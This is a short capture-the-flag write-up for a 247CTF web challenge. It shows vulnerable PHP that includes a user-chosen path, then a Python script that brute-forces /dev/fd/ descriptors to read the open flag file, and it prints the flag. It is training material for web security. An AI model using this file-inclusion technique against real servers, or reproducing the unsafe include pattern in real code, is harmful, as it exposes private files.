

## FORGOTTEN FILE POINTER  



The challenge webpage is pretty minimal. It opens `/tmp/flag.txt` but doesn't display its contents anywhere.  

The server does allow us to specify an `include` argument in the query parameters, which it will `include()`, leading to a PHP LFI vuln.  

However, the main restriction is that our `include` payload is limited to `10` characters or less.  

```php
<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>
```

We can use `/dev/fd/` to read the file descriptor of the flag file, which gives us `2` characters to specify file stream. Since we don't know which stream it's in, we can just bruteforce streams `1-100`, and this will eventually find the flag in stream `10`.  

```python
import requests
import re

url = 'https://977f478e65a8f63b.247ctf.com/'

for i in range(100):
    print(f"Trying: {i}")

    res = requests.get(url, params={
        'include': f'/dev/fd/{i}'
    })

    if "247" in res.text:
        flag = re.findall(r'(247CTF{.+})', res.text)[0]
        print("Flag:", flag)
        break
```

Flag: `247CTF{4be4e08685e2ed433dde9171e887761e}`